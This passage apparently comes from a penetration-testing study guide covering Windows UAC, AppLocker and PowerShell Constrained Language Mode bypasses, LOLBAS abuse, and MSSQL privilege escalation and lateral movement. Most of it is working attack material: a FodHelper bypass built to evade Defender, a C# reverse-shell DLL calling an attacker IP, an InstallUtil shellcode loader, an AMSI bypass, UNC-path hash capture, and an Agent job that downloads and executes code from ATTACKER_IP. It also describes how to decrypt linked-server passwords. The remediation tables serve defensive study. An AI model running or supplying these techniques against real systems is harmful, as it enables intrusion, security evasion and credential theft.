Defender monitors writes to this registry key and blocks commands containing .exe. The workaround: Windows does not require the .exe extension to locate binaries. C:\Windows\Tasks\RShell resolves to RShell.exe automatically.
# Step 1: Create the registry key and set the command (WITHOUT .exe extension)
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Windows\Tasks\RShell [attacker-ip] 8080" -Force
# Step 2: Launch FodHelper (auto-elevates and reads our registry key)
C:\Windows\System32\fodhelper.exe
# Step 3: Clean up
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -ForceWhy removing .exe bypasses Defender: Defender's behavioral rule specifically checks for .exe in the registry value. Without the extension, the write is not flagged. Windows path resolution still finds the binary.
14.7.4 Additional UAC Bypass Reference: WinPwnage
The WinPwnage project provides Python implementations of 15 different UAC bypass techniques. It serves as a useful research reference for discovering additional vectors beyond DiskCleanup and FodHelper.
Methodology
-
whoami /groups | findstr "S-1-5-32-544" # Or: net localgroup Administrators -
whoami /groups | findstr "Mandatory" # Look for "Medium Mandatory Level" -
Copy-Item .\RShell.exe C:\Windows\Tasks\RShell.exe -
# DiskCleanup: Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\RShell.exe LHOST LPORT & REM " -Force Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup" # FodHelper: New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Windows\Tasks\RShell LHOST LPORT" -Force C:\Windows\System32\fodhelper.exe -
whoami /groups | findstr "Mandatory" # Should show "High Mandatory Level" -
Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Force Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
14.7.5 Remediation
| Defense | What It Addresses |
|---|---|
| Set UAC to "Always Notify" | Prompts for all elevation requests, not just for app installs; prevents silent auto-elevation |
| Remove users from local Administrators group | UAC bypasses require an admin account; standard users cannot exploit them |
| Monitor registry keys | Alert on writes to HKCU:\Software\Classes\ms-settings\Shell\Open\command and HKCU:\Environment\windir |
| Monitor scheduled task execution | Alert on SilentCleanup being triggered by non-system processes |
| Enable Credential Guard | Reduces the impact of privilege escalation by protecting credential material |
| Audit autoElevate binaries | Inventory all binaries with autoElevate=true and monitor their execution context |
| Deploy EDR with UAC monitoring | Modern EDR solutions detect known UAC bypass patterns and registry manipulation |
14.8 AppLocker Bypass
AppLocker is a Windows defense-in-depth security feature that allows administrators to restrict which applications and scripts users can run. It provides allowlisting (not blocklisting) by defining rules for five file categories.
14.8.1 AppLocker Rule Types and Defaults
| File Type | Extensions | Default Rules |
|---|---|---|
| Executable Files | .exe, .com | Everyone: %PROGRAMFILES%\* and %WINDIR%\*; Admins: anywhere |
| Windows Installer | .msi, .msp | Everyone: %WINDIR%\Installer\*; Admins: anywhere |
| Scripts | .js, .ps1, .vbs, .cmd, .bat | Everyone: %PROGRAMFILES%\* and %WINDIR%\*; Admins: anywhere |
| Packaged Apps | .appx | Everyone: signed packages |
| DLLs | .dll | Not enabled by default (performance impact); must be explicitly turned on |
Key observation: DLL rules are almost never enabled in practice because Microsoft warns of significant performance degradation. This means DLL-based execution (e.g., RunDll32) is rarely restricted.
14.8.2 Enumerating AppLocker Policies
The XML output reveals the exact rule collection, SIDs, and path conditions. Look for:
# Get the effective AppLocker policy (combines local + domain GPO)
Get-AppLockerPolicy -Effective -Xml
# Test if a specific file would be allowed for a specific user
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path C:\Tools\SysinternalsSuite\procexp.exe -User max
# Output: DeniedByDefault
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path C:\Tools\SysinternalsSuite\procexp.exe -User maria
# Output: Allowed (Default Rule) All files...EnforcementMode="Enabled": rules are actively enforced (vs. "AuditOnly")FilePathCondition: path-based rules (most common and most exploitable)UserOrGroupSid="S-1-1-0": the Everyone group (all users)UserOrGroupSid="S-1-5-32-544": the local Administrators group
14.8.3 Exploiting the Default Ruleset
The fundamental weakness: The default rules allow Everyone to execute files from %WINDIR%\* (recursive). Within the Windows directory, there are subdirectories where standard users have both write and execute permissions. Any file placed in these directories bypasses AppLocker.
Finding writable+executable directories under %WINDIR%:
Get-ChildItem $env:windir -Directory -Recurse -ErrorAction SilentlyContinue | ForEach-Object {
$dir = $_;
(Get-Acl $dir.FullName).Access | ForEach-Object {
if ($_.AccessControlType -eq "Allow") {
if ($_.IdentityReference.Value -eq "NT AUTHORITY\Authenticated Users" -or
$_.IdentityReference.Value -eq "BUILTIN\Users") {
if (($_.FileSystemRights -like "*Write*" -or $_.FileSystemRights -like "*Create*") -and
$_.FileSystemRights -like "*Execute*") {
Write-Host ($dir.FullName + ": " + $_.IdentityReference.Value +
" (" + $_.FileSystemRights + ")");
}
}
}
};
}Common writable+executable directories:
| Path | Permissions |
|---|---|
C:\Windows\Tasks | Authenticated Users: CreateFiles, ReadAndExecute |
C:\Windows\Temp | BUILTIN\Users: CreateFiles, AppendData, ExecuteFile |
C:\Windows\tracing | BUILTIN\Users: Write, ReadAndExecute |
C:\Windows\System32\spool\drivers\color | BUILTIN\Users: CreateFiles, ReadAndExecute |
Bypass for executables:
# Copy payload to writable Windows subdirectory
Copy-Item .\NotMalware.exe C:\Windows\Tasks\NotMalware.exe
# Execute -- AppLocker allows it because it's under %WINDIR%
C:\Windows\Tasks\NotMalware.exeBypass for scripts: The default script rules have the same path-based weakness. VBScript, PowerShell, batch files, etc., placed in C:\Windows\Tasks will execute without restriction:
# Script blocked on Desktop:
C:\Users\max\Desktop\test.vbs # Error: "This program is blocked by group policy"
# Same script works from Windows\Tasks:
Copy-Item C:\Users\max\Desktop\test.vbs C:\Windows\Tasks\test.vbs
C:\Windows\Tasks\test.vbs # Executes successfullyMethodology
-
Get-AppLockerPolicy -Effective -Xml -
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path C:\path\to\payload.exe -User USERNAME -
# Use the ACL enumeration script above # Key targets: C:\Windows\Tasks, C:\Windows\Temp, C:\Windows\tracing -
Copy-Item .\payload.exe C:\Windows\Tasks\payload.exe C:\Windows\Tasks\payload.exe -
14.8.4 Remediation
| Defense | Rationale |
|---|---|
| Replace path rules with publisher/hash rules | Path rules are trivially bypassed via writable directories; publisher rules check code signatures |
| Explicitly deny writable directories | Add deny rules for C:\Windows\Tasks, C:\Windows\Temp, C:\Windows\tracing, etc. |
| Enable DLL rules | Without DLL rules, RunDll32 and similar techniques are unrestricted (accept performance trade-off) |
| Migrate to WDAC (Windows Defender Application Control) | WDAC is kernel-enforced and more robust than AppLocker; recommended replacement |
| Audit mode first, enforce after testing | Avoid breaking legitimate applications while building the policy |
| Monitor AppLocker event logs | Event IDs 8003 (blocked) and 8004 (audit) in Microsoft-Windows-AppLocker logs |
| Restrict ACLs on writable directories | Remove write permissions from C:\Windows\Tasks etc. for standard users where possible |
14.9 LOLBAS: Living off the Land
"Living off the Land" (LOTL) refers to abusing legitimate, Microsoft-signed binaries already present on the target OS to carry out attacks. These binaries bypass AppLocker because they reside in allowed paths (%WINDIR%) and are signed by Microsoft. The LOLBAS project (lolbas-project.github.io) catalogs these binaries and their abuse potential.
Why LOLBAS is powerful:
14.9.1 InstallUtil
What it is: A Microsoft command-line utility for installing/uninstalling .NET server resources. It ships with Visual Studio and the .NET Framework.
Locations:
-
# Verify InstallUtil is allowed by AppLocker Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe # Output: Allowed (Default Rule) All files located in the Windows folder
How to abuse it: Create a C# class that extends System.Configuration.Install.Installer and override the Uninstall method. When InstallUtil is told to uninstall the compiled assembly, it executes whatever code is in the Uninstall method.
Setup steps:
Template code:
using System;
using System.Configuration.Install;
public class NotMalware_IU
{
public static void Main(string[] args)
{
// Empty -- InstallUtil does not use Main
}
}
[System.ComponentModel.RunInstaller(true)]
public class A : System.Configuration.Install.Installer
{
// P/Invoke declarations for shellcode execution
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size,
UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize,
UInt32 flNewProtect, out UInt32 lpflOldProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes,
UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param,
UInt32 dwCreationFlags, ref UInt32 lpThreadId);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
public override void Uninstall(System.Collections.IDictionary savedState)
{
// AES-encrypted shellcode (micr0_shell)
string bufEnc = "<BASE64_AES_ENCRYPTED_SHELLCODE>";
// Decrypt and execute shellcode
// (same AES decryption + VirtualAlloc + CreateThread pattern)
}
}Execution command:
# Use the 64-bit InstallUtil with /U (uninstall) flag
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Tools\NotMalware_IU\bin\x64\Release\NotMalware_IU.exe14.9.2 RunDll32
What it is: A standard Windows utility for loading and executing DLLs.
Locations:
The challenge: By default, .NET (managed code) cannot export DLL functions like native C/C++ (unmanaged code) can. RunDll32 expects to call exported functions. The solution is the DllExport NuGet package, which enables .NET assemblies to export methods.
Setup steps:
Payload code:
using System;
using System.IO;
using System.Net.Sockets;
using System.Diagnostics;
namespace RShell_D
{
internal class Program
{
[DllExport("DllMain")]
public static void DllMain()
{
try
{
// Connect to attacker (hardcoded IP/port)
TcpClient client = new TcpClient();
client.Connect("[attacker-ip]", 8080);
Stream stream = client.GetStream();
StreamReader streamReader = new StreamReader(stream);
StreamWriter streamWriter = new StreamWriter(stream);
// Spawn hidden PowerShell (32-bit for x86 DLL)
Process p = new Process();
p.StartInfo.FileName = @"C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe";
p.StartInfo.Arguments = "-ep bypass -nologo";
p.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardError = true;
p.StartInfo.RedirectStandardInput = true;
// ... (same as RShell, with output/error handlers)
p.Start();
// ... (same event handling and input loop)
}
catch (Exception) { }
}
}
}Execution:
# Execute the exported DllMain function via RunDll32
C:\Windows\System32\RunDll32.exe C:\Tools\RShell_D\bin\Release\x86\RShell_D.dll,DllMainWhy it bypasses AppLocker: RunDll32.exe is a Microsoft-signed binary in %WINDIR%, and DLL rules are almost never enabled in AppLocker. Even if exe rules block custom binaries, RunDll32 itself is allowed, and it loads our DLL as a library call, not as an executable.
14.9.3 Additional LOLBAS References
| Binary | Abuse Type | Notes |
|---|---|---|
| InstallUtil.exe | Execute arbitrary code via Uninstall method | Requires .NET Framework reference |
| RunDll32.exe | Load and execute DLL exports | Requires DllExport NuGet package for .NET |
| RegAsm.exe | Execute code via /U (unregister) flag | Similar pattern to InstallUtil |
| MSBuild.exe | Execute inline C# tasks from XML project files | No compilation needed, interprets XML at runtime |
| RegSvcs.exe | Execute code via COM component registration | .NET assembly with ComRegisterFunction |
| CMSTP.exe | Execute arbitrary commands via INF file | Microsoft Connection Manager |
| Mshta.exe | Execute HTA (HTML Application) files | Runs JavaScript/VBScript outside browser sandbox |
Methodology
-
# Check for InstallUtil Test-Path "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe" # Check for RunDll32 Test-Path "C:\Windows\System32\rundll32.exe" -
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe -
-
# InstallUtil: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U .\payload.exe # RunDll32: C:\Windows\System32\RunDll32.exe .\payload.dll,DllMain -
whoami whoami /groups | findstr "Mandatory"
14.9.4 Remediation
| Defense | Rationale |
|---|---|
| Enable AppLocker DLL rules | Without DLL rules, RunDll32 and similar binaries can load any DLL |
| Block specific LOLBINs via AppLocker deny rules | Create explicit deny rules for InstallUtil.exe, RunDll32.exe, RegAsm.exe, etc. if not needed |
| WDAC managed installer rules | WDAC can restrict which binaries InstallUtil/RunDll32 can load |
| Monitor LOLBIN execution (Sysmon/EDR) | Alert when InstallUtil, RunDll32, MSBuild, etc. are executed by non-standard users or from unusual paths |
| Script Block Logging | Captures PowerShell commands that invoke LOLBINs |
| Process command-line logging | Capture full command lines to detect /U flags on InstallUtil, DLL loading via RunDll32, etc. |
14.10 PowerShell Constrained Language Mode (CLM)
When AppLocker is enabled, PowerShell automatically enters Constrained Language Mode (CLM) for all non-elevated sessions. CLM severely restricts what PowerShell can do, blocking many offensive techniques.
14.10.1 PowerShell Language Modes
| Mode | Description | Restrictions |
|---|---|---|
| FullLanguage | Default mode; no restrictions | None |
| RestrictedLanguage | Commands allowed, script blocks blocked | No script blocks, limited operators |
| ConstrainedLanguage | Operations that could be abused are restricted | No Add-Type, no arbitrary .NET types, no P/Invoke, method invocation limited to core types |
| NoLanguage | Scripting language completely disabled | Only cmdlets and functions; no expressions or scripts |
# Check current language mode
$ExecutionContext.SessionState.LanguageMode
# Output: ConstrainedLanguageKey CLM restrictions that affect attackers:
Example: AMSI bypass blocked by CLM:
PS C:\Users\maria> [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils').GetField('amsiInit'+'Failed','NonPublic,Static').SetValue($null,!$false)
# Error: Cannot invoke method. Method invocation is supported only on core types in this language mode.
# FullyQualifiedErrorId: MethodInvocationNotSupportedInConstrainedLanguageWhen CLM is active: AppLocker automatically forces CLM on all PowerShell sessions running at Medium integrity. Sessions running at High integrity (elevated) get FullLanguage mode.
14.10.2 Bypass: Custom Runspace
A PowerShell Runspace is the execution environment for PowerShell commands, including its language mode. When you open powershell.exe, Windows creates a runspace in the background. We cannot control that runspace, but we can write a C# program that creates its own runspace with FullLanguage mode (which is the default for programmatically created runspaces).
The CLM restriction is applied by the default runspace created by powershell.exe. A custom C# program that creates its own RunspaceFactory.CreateRunspace() gets a FullLanguage runspace by default, because AppLocker's CLM enforcement only applies to the standard PowerShell host.
Setup: Create a Console App (.NET Framework) project and add a reference to:
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dllImplementation (CLMBypass.exe):
using System;
using System.Collections.ObjectModel;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
namespace CLMBypass
{
internal class Program
{
static void Main(string[] args)
{
if (args.Length == 0) return;
// Create a new runspace (defaults to FullLanguage mode)
Runspace runspace = RunspaceFactory.CreateRunspace();
runspace.Open();
// Create a PowerShell object using our custom runspace
PowerShell ps = PowerShell.Create();
ps.Runspace = runspace;
// Execute the command passed as argument
ps.AddScript(String.Join(" ", args));
Collection<PSObject> results = ps.Invoke();
// Print results
foreach (PSObject obj in results)
{
Console.WriteLine(obj.ToString());
}
runspace.Close();
}
}
}Usage (must be placed in an AppLocker-allowed directory):
# Copy to writable/executable directory to bypass AppLocker
Copy-Item .\CLMBypass.exe C:\Windows\Tasks\CLMBypass.exe
# Execute PowerShell commands in FullLanguage mode
C:\Windows\Tasks\CLMBypass.exe "$ExecutionContext.SessionState.LanguageMode"
# Output: FullLanguage
# Run AMSI bypass or other restricted commands
C:\Windows\Tasks\CLMBypass.exe "[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')..."This is the same technique used by Cobalt Strike's PowerPick and similar tools. The difference is that PowerPick is well-known and detected by Defender, while a custom implementation is not.
14.10.3 Bypass: Downgrade to PowerShell 2.0
PowerShell 2.0 (released 2009) predates both AMSI and Constrained Language Mode. If PS 2.0 is still enabled on the target, downgrading to it bypasses both security features simultaneously.
# Force PowerShell to use version 2.0
powershell -version 2
# Verify
$PSVersionTable.PSVersion
# Output: 2.0
# Both AMSI and CLM are bypassed in PS 2.0
$ExecutionContext.SessionState.LanguageMode
# Output: FullLanguageLimitations:
Check if PS 2.0 is available:
# Check if PowerShell 2.0 engine is installed
Get-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2
# State: Enabled = vulnerable; Disabled = not availableMethodology
-
$ExecutionContext.SessionState.LanguageMode -
powershell -version 2 $ExecutionContext.SessionState.LanguageMode -
# Build CLMBypass.exe targeting x64, Release # Copy to C:\Windows\Tasks Copy-Item .\CLMBypass.exe C:\Windows\Tasks\CLMBypass.exe -
C:\Windows\Tasks\CLMBypass.exe "YOUR_POWERSHELL_COMMAND_HERE" -
14.10.4 Remediation
| Defense | What It Addresses |
|---|---|
| Disable PowerShell 2.0 | Eliminates the simplest CLM + AMSI bypass |
| Use WDAC instead of AppLocker | WDAC is kernel-enforced and harder to bypass with custom binaries |
| Block custom .NET assemblies | Publisher/hash-based rules prevent execution of unsigned CLMBypass-style tools |
| Monitor for Runspace creation | ETW and .NET runtime telemetry can detect programmatic Runspace creation |
| Script Block Logging + Transcription | Even if CLM is bypassed, logging captures what was executed |
| Restrict writable directories in %WINDIR% | Prevents placing CLMBypass.exe in AppLocker-allowed paths |
| Remove .NET Framework 2.0/3.5 | Required by PS 2.0; removing it prevents the downgrade attack |
# Disable PowerShell 2.0 (requires admin)
Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV215. MSSQL, Exchange, and SCCM Attacks
15.1 Introduction to MSSQL Server
Microsoft SQL Server (MSSQL Server) is a proprietary relational database management system (RDBMS) developed by Microsoft. It stands out due to its tight integration with Active Directory and .NET, a large developer community, and reliable performance with large datasets. MSSQL uses its own SQL dialect called Transact-SQL (T-SQL), which extends standard SQL with procedural programming, local variables, and enhanced DELETE/UPDATE statements.
In AD penetration testing, MSSQL servers are high-value targets because they often run under domain service accounts with excessive privileges, store sensitive data, and can serve as pivot points for lateral movement through linked servers.

15.1.1 Accessing MSSQL Server
Credentials for MSSQL instances are often discovered in configuration files during assessments. A typical discovery might look like:
DB_CONNECTION=sqlsrv
DB_HOST=[attacker-ip]
DB_PORT=1433
DB_DATABASE=webshop
DB_USERNAME=ws_dev
DB_PASSWORD=4X6cuvDLNer7nwYN5LBZImpacket MSSQLClient (Linux): An open-source Python tool from the Impacket project. Supports MSSQL Server authentication, Windows authentication, Kerberos, and pass-the-hash.
# Connect with MSSQL Server authentication
impacket-mssqlclient ws_dev:[email protected]
# Execute a T-SQL query
SQL (ws_dev guest@master)> SELECT SYSTEM_USER;Microsoft SQL Server Management Studio (SSMS) (Windows): Microsoft's official GUI for managing MSSQL instances. Connect by specifying the server name (e.g., SQL01) and authentication credentials. Queries are executed via New Query from the file menu or by right-clicking a database.
In real-world engagements, attackers more commonly interact with MSSQL through SQL injection vulnerabilities rather than direct connections with known credentials.
15.1.2 Enumerating MSSQL Server
MSSQL distinguishes between logins (server-level security principals) and users (database-level security principals). One login can map to multiple users across databases, with a maximum of one user per database.
Enumerating Logins and Server Roles:
SELECT r.name, r.type_desc, r.is_disabled, sl.sysadmin, sl.securityadmin,
sl.serveradmin, sl.setupadmin, sl.processadmin, sl.diskadmin,
sl.dbcreator, sl.bulkadmin
FROM master.sys.server_principals r
LEFT JOIN master.sys.syslogins sl ON sl.sid = r.sid
WHERE r.type IN ('S','E','X','U','G');Enumerating Databases (ownership and trustworthy status):
SELECT a.name AS 'database', b.name AS 'owner', is_trustworthy_on
FROM sys.databases a
JOIN sys.server_principals b ON a.owner_sid = b.sid;Enumerating Database Users and Roles:
USE webshop;
EXECUTE sp_helpuser;A stored procedure is analogous to a function: it accepts input arguments, contains programming statements, and returns a status value. MSSQL has many built-in stored procedures. Extended stored procedures allow MSSQL to execute native code stored in DLLs, which attackers frequently abuse.
15.1.3 Methodology
-
nmap -sCV TARGET -p1433 -
impacket-mssqlclient USER:PASS@TARGET -
SELECT r.name, sl.sysadmin FROM master.sys.server_principals r LEFT JOIN master.sys.syslogins sl ON sl.sid = r.sid WHERE r.type IN ('S','E','X','U','G'); -
SELECT name FROM sys.server_permissions JOIN sys.server_principals ON grantor_principal_id = principal_id WHERE permission_name = 'IMPERSONATE'; -
EXEC sp_linkedservers;
15.2 MSSQL Privilege Escalation
The goal of MSSQL privilege escalation is to obtain a login with the sysadmin server-level role (comparable to BUILTIN\Administrators for local Windows privilege escalation). The built-in sa login is the ultimate target. Note that sa is disabled by default when Windows Authentication Mode is selected during installation.
15.2.1 Impersonating Logins
MSSQL has an EXECUTE AS statement that allows switching a session's execution context to another login, effectively impersonating them. The REVERT statement switches back. Permissions are controlled by server-level IMPERSONATE grants stored in sys.server_permissions.
When administrators grant IMPERSONATE on a high-privilege login (like sa) to a low-privilege login, an attacker who compromises the low-privilege login inherits full sysadmin access. This is a misconfiguration where the Principle of Least Privilege was not followed.
Enumerate impersonation targets:
SELECT name FROM sys.server_permissions
JOIN sys.server_principals
ON grantor_principal_id = principal_id
WHERE permission_name = 'IMPERSONATE';Impersonate and revert:
-- Switch to sa context
EXECUTE AS LOGIN = 'sa';
-- Verify
SELECT SYSTEM_USER;
-- Switch back
REVERT;15.2.2 Abusing Trustworthy Databases
The TRUSTWORTHY database property indicates whether the MSSQL instance should trust the database and its contents. It is off by default, but sysadmin logins sometimes enable it for server-level resource access.
When a database is trustworthy and its owner is sa (who has sysadmin), a user with the db_owner role in that database can create a stored procedure that executes in the owner's context (WITH EXECUTE AS OWNER). Because the owner is sa, the procedure runs as sysadmin, allowing it to grant sysadmin to arbitrary logins.
Attack chain:
-
-- Check if our impersonated user has db_owner USE webshop; EXECUTE AS LOGIN = 'ws_user'; SELECT IS_ROLEMEMBER('db_owner'); -- Create privesc stored procedure CREATE PROCEDURE sp_privesc WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'ws_dev', 'sysadmin' GO -- Execute and clean up EXECUTE sp_privesc; DROP PROCEDURE sp_privesc; -- Verify REVERT; SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER('sysadmin');
15.2.3 UNC Path Injection
This technique captures the NetNTLMv2 hash of the user account running the MSSQL Server service. By default, this is NT SERVICE\mssqlserver, but database admins often configure a domain user for inter-domain resource access.
Several undocumented extended stored procedures handle file/directory paths and also accept UNC paths. When given a UNC path pointing to an attacker-controlled SMB share, the MSSQL service authenticates against that share, leaking its NetNTLMv2 hash.
Vulnerable stored procedures:
| Stored Procedure | Function |
|---|---|
xp_fileexist | Checks whether a file exists |
xp_dirtree | Returns a directory tree from a provided directory |
xp_subdirs | Returns sub-directories of a provided directory |
# Start Responder on attack host
sudo responder -I tun0 -v
-- Trigger authentication from MSSQL to attacker SMB share
EXEC xp_dirtree '\\ATTACKER_IP\a';
EXEC xp_subdirs '\\ATTACKER_IP\a';
EXEC xp_fileexist '\\ATTACKER_IP\a';
# Crack captured NetNTLMv2 hash
hashcat -m 5600 'HASH' /usr/share/wordlists/rockyou.txt15.2.4 Methodology
-
SELECT name FROM sys.server_permissions JOIN sys.server_principals ON grantor_principal_id = principal_id WHERE permission_name = 'IMPERSONATE'; -
EXECUTE AS LOGIN = 'sa'; -
SELECT a.name, b.name AS 'owner', is_trustworthy_on FROM sys.databases a JOIN sys.server_principals b ON a.owner_sid = b.sid; -
CREATE PROCEDURE sp_privesc WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'YOUR_LOGIN', 'sysadmin'; GO -
EXEC xp_dirtree '\\ATTACKER_IP\share'; -
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
Remediation
Revoke EXECUTE permissions on xp_dirtree, xp_fileexist, and xp_subdirs from the public role. Run the MSSQL service as a low-privilege managed service account, not a domain user. Block outbound SMB (TCP/445) at the firewall.
15.3 MSSQL Command Execution
After escalating to sysadmin, executing OS commands is the next logical step. MSSQL provides three primary methods for command execution, all requiring sysadmin privileges.
15.3.1 Advanced Server Configuration Options
Two of the three techniques require advanced server configuration options, which are disabled by default. Sysadmin can enable them:
-- Show advanced options
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;15.3.2 Command Execution via xp_cmdshell
xp_cmdshell is the most well-known method. It spawns cmd.exe as a child of sqlservr.exe (the MSSQL service binary) with the provided string as a command-line argument. Output is returned as a result set where each row is a new line.
xp_cmdshell is a built-in extended stored procedure designed for command execution. Microsoft disabled it by default because of widespread abuse, but any sysadmin can re-enable it.
-- Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
-- Execute commands
EXEC xp_cmdshell 'ipconfig';
EXEC xp_cmdshell 'whoami';
-- Clean up: disable after use
EXEC sp_configure 'xp_cmdshell', 0;
RECONFIGURE;
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE;15.3.3 Command Execution via MSSQL Server Agent Job
MSSQL Server Agent jobs are comparable to scheduled tasks, intended for database administration automation. Jobs support multiple subsystems: T-SQL, CmdExec, and PowerShell. The latter two allow OS command execution.
The MSSQL Server Agent service runs as NT Service\sqlserveragent by default, which has SeImpersonatePrivilege, exploitable via "potato" attacks to escalate to SYSTEM.
The Agent service must be running (it is not by default).
USE msdb;
GO
EXEC sp_add_job @job_name = N'Malicious Job';
GO
EXEC sp_add_jobstep
@job_name = N'Malicious Job',
@step_name = N'Execute PowerShell Script',
@subsystem = N'PowerShell',
@command = N'(New-Object Net.WebClient).DownloadString("http://ATTACKER_IP/a")|IEX;',
@retry_attempts = 5,
@retry_interval = 5;
GO
EXEC sp_add_jobserver @job_name = N'Malicious Job';
GO
EXEC sp_start_job @job_name = N'Malicious Job';
GO
-- Clean up
EXEC sp_delete_job @job_name = N'Malicious Job';15.3.4 Command Execution via OLE Automation Stored Procedure
OLE Automation is a Microsoft inter-process communication mechanism that allows using other languages (e.g., VBScript) from T-SQL via sp_OACreate and sp_OAMethod.
-- Enable OLE Automation
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'ole automation procedures', 1;
RECONFIGURE;
-- Execute command (writes output to file)
DECLARE @objShell INT;
DECLARE @output varchar(8000);
EXEC @output = sp_OACreate 'wscript.shell', @objShell Output;
EXEC sp_OAMethod @objShell, 'run', NULL, 'cmd.exe /c "whoami > C:\Windows\Tasks\tmp.txt"';
-- Clean up
EXEC sp_configure 'ole automation procedures', 0;
RECONFIGURE;
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE;15.3.5 Methodology
-
SELECT IS_SRVROLEMEMBER('sysadmin'); -
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami'; -
EXEC msdb..sp_start_job @job_name = N'Malicious Job'; -
EXEC sp_OACreate 'wscript.shell', @objShell Output; EXEC sp_OAMethod @objShell, 'run', NULL, 'cmd.exe /c "command"'; -
EXEC sp_configure 'xp_cmdshell', 0; RECONFIGURE;
15.4 MSSQL Lateral Movement
MSSQL supports linked servers, where server A can execute database queries remotely on server B. When a server is linked, authentication credentials are specified, which could be a low-level or sysadmin login. This creates the concept of lateral movement across MSSQL servers.
15.4.1 Linked Server Enumeration
There are three ways to remotely execute queries on linked servers:
| Method | Description | Result Sets |
|---|---|---|
OPENQUERY | Executes on a pre-defined linked server | One |
EXECUTE AT | Executes on a pre-defined linked server | Multiple |
OPENROWSET | Ad-hoc connection (requires connection string) | One |
-- Enumerate linked servers
EXEC sp_linkedservers;
-- Query linked server
SELECT * FROM OPENQUERY(SQL02, 'SELECT name, database_id, create_date FROM sys.databases');
-- Check if we have sysadmin on the linked server
SELECT * FROM OPENQUERY(SQL02, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');15.4.2 Remote Command Execution via EXECUTE AT
After verifying sysadmin on the remote server, enable xp_cmdshell and execute commands remotely:
EXECUTE ('EXEC sp_configure "show advanced options", 1; RECONFIGURE; EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE; EXEC xp_cmdshell "whoami";') AT SQL02;15.4.3 Decrypting Linked Server Passwords (Post-Exploitation)
After compromising a host with MSSQL linked servers, the authentication credentials for those links can be extracted and decrypted. This requires: (1) sysadmin role on the MSSQL instance, and (2) local administrator on the underlying server.
Step 1: Connect via DAC (in SSMS, use ADMIN:SQL02 as server name).
Step 2: Extract encrypted credentials:
SELECT sysservers.srvname, syslnklgns.name, syslnklgns.pwdhash
FROM master.sys.syslnklgns
INNER JOIN master.sys.sysservers
ON syslnklgns.srvid = sysservers.srvid WHERE LEN(pwdhash) > 0;Step 3: Retrieve entropy bytes from registry:
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Security" -Name "Entropy"Step 4: Decrypt the Service Master Key:
$encryptedData = "0xFFFFFFFF500100..."
$encryptedData = $encryptedData.Substring(18)
$encryptedData = [byte[] -split ($encryptedData -replace '..', '0x$& ')
$entropy = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Security" -Name "Entropy").Entropy
Add-Type -AssemblyName System.Security
$SMK = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedData, $entropy, 'LocalMachine')
